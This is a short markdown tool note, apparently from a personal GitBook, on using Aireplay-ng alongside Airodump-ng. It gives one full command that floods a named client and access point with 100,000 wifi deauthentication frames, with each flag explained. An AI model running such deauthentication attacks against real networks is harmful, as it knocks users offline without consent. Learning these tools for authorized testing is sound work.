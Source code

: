 ```yaml
---
description: >-
  a utility to perform attacks such as de-authenticating connected users from a
  wifi network.
---
```


# Aireplay-ng

Aireplay-ng works when Airodump-ng is scanning. ie; Airodump--ng must be scanning live before the Aireplay-ng utility will work.

`aireplay-ng --deauth 100000 -a 98:A9:42:27:A2:CA -c 38:B1:DB:EE:21:39 wlan0mon`  the `--deauth 100000` sends 100000 deauthentication messages to the client, `-a` denotes the Router/AP mac address, `-c` denotes client mac address.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-55.png" alt=""><figcaption><p><code>airodump-ng</code></p></figcaption></figure>

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-34.png" alt=""><figcaption><p><code>aireplay-ng</code></p></figcaption></figure>
